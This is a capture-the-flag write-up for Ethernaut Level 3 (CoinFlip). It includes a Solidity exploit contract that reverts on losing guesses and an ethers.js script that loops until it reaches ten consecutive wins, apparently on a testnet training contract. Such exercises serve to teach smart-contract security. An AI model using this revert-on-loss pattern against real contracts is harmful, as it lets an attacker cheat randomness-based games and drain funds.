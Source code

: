 Level 3
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x4970f628e73685e57d269bb5447ae599e8acdc257d2be4c7a5c68996c2893e48
Submission transaction: https://goerli.etherscan.io/tx/0x4bd7744e55814c26f7df3e1c2ee50f6777290d351eab40b4d2f8ebd98dba7fdc

-------
This challenge's task is to get 10 or more consecutive wins. 
Notice the CoinFlip contract returns true if the guess was correct and false if it wasn't. All we have to do is instantiate an exploit contract that can call the flip function and reverts whenever it receives a false returned value.
As the exploit contract reverts when it doesn't win, only 10 EVM state changes will happen.

#### Exploit contract:

The interface refers to Coinflip's flip function. Notice we define the return type for that function, otherwise we won't be allowed to compile this contract.
The attemptCoinFlip is a function that will revert if our guess returns a false response.
The target address is set to private due to the lack of any real use of having this internal/external nor public. It is a good safety practice to default stored values to private and only change this upon real need. Notice, though, that this private visibility does not mean the variable cannot be seem by third parties - it means cannot be called, even by contracts that inherit CoinFlipExploit.

```
    interface Coinflip{
        function flip(bool _guesss) external returns(bool);
    }

    contract CoinFlipExploit {
        address private target;

    constructor (address _target)  {
        target = _target;
    }

    function attemptCoinFlip() external{
        require(Coinflip(target).flip(true), "Wrong answer");
        
    }

}

```

#### The deployment script:
I've had a lot of fun. I wanted it to run automatically till I got all the 10 consecutive transactions and nothing else. For that to happen, I needed to check the consecutive wins amount every time the script ran:
```
    const consecutiveWins = await coinFlipContract.consecutiveWins();
```
Since it fetches on-chain data, this value would be automatically updated by the EVM if a successfull coinFlip attempt was pushed.

To not allow the script to run if the consecutiveWins was bigger than 9, wecreate a condition to exit the node.js process.
```
    if(consecutiveWins > 9 ){
        console.log(`Task already solved! Move on, mate!\n ------ `);
        process.exit();
    } 
```

To save ether, I only wanted to deploy the exploit contract once. So I checked the total amount of attempts, and if it was bigger than 0, we'd just refer to the already deployed contract.
```
    if (totalAttempts == 0){
      // deploy new exploit contract
      console.log(`Deploying coin flip exploit contract.\n ------ `)
      coinFlipExploitContract = await coinFlipExploitContractInterface.deploy( coinFlipContractAddress);
    
      console.log(`Coin flip exploit contract succesfully deployed at address ${coinFlipExploitContract.address}\n ------ \n`);
      globalCoinFlipExploitContractAddress = coinFlipExploitContract.address;
    
      } else {
      // use already deployed contract
        coinFlipExploitContract =new ethers.Contract(globalCoinFlipExploitContractAddress, CoinFlipExploitJson.abi, signer);
    
      }
```

Ethers.js usually stops scripts from running whenever a transaction attempt errors. The solution was to attempt anything inside try and catch blocks, meaning we would error would be handled and the script would not get stopped. 
```
    console.log(`Attempting to push coin flip transaction.\n ------ `);
    try{
        const coinFlipAttemptTx = await coinFlipExploitContract.attemptCoinFlip();
        const coinFlipAttemptTxReceipt = await coinFlipAttemptTx.wait();
        console.log(`Coinflip attempt succesfull\n ------ `);
    } catch(e){
        console.log(`Wrong answer\n ------ `);
        console.log(`${e}\n ------ `);
        
    }
```

Last but not least, we recursively call the script again and update the totalAttempts amount.
```
    main();
    }
  totalAttempts += 1;
```

Final result: 

Ethernaut level 3 - script made by JoVi
 ------
Checking consecutive wins amount
 ------
...
10!
 ------
136 attempts so far!
 ------
Task already solved! Move on, mate!
 ------
Done in 448.89s.






